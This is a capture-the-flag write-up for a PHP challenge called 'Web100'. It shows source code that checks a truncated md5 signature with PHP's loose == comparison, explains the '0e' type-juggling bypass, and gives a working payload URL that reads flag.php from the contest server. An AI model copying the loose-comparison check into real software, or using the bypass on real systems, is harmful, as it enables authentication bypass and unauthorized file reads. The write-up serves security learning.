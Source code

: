 Source code :

<?php
    function checksig($filename, $timestamp, $sig, $secretkey)
    {
        $realsig = substr(md5($filename.$timestamp.$secretkey),0,16);
        if ($sig == $realsig)
        {
            $filename = './'.str_replace('/','',$filename);
            readfile($filename);
            die(0);
        }
        echo "Invalid Signature!";
    }

$secretkey = "XXXXXXXXXXXXXXXXXXXXXXXXX";//This is not real $secretkey, ignore it !!!
echo "<html>
    <title>Web100</title>
    <body>
    <br>Dare to read flag.php???<br>
    <a href='web100.php?filename=test.php&timestamp=13371337&sig=d7a52c3ed325ef19'>Click me</a><br>
    </body>";
if (isset($_GET['filename'])&&isset($_GET['sig'])&&isset($_GET['timestamp']))
    {
        checksig($_GET['filename'],$_GET['timestamp'],$_GET['sig'], $secretkey);
        die(0);
    }
echo "Something's missing!!";
echo "</html>";
?>


I thought it 's hash length attack but $secretkey at the last canot modified.
So, it isn't hash length attack.

Then I found https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf

=>> 
Vul at:         $realsig = substr(md5($filename.$timestamp.$secretkey),0,16);          
                    if ($sig == $realsig)

$realsig = substr(md5($filename.$timestamp.$secretkey),0,16);
So $realsig can be control.
In loose (==)  of php: "0e123456" = 0*10^123456= "0", so if ($sig == $realsig) return true if $sig=0 and $realsig= 0exxxxxx with xxxxxx is decimal.
So, payload = http://readfile.svattt.org:8888/web100.php?filename=flag.php&timestamp={fuzzing}&sig=0
U can fuzz with burpsuite or ur coding skill :D

finally payload:  http://readfile.svattt.org:8888/web100.php?filename=flag.php&timestamp=862&sig=0
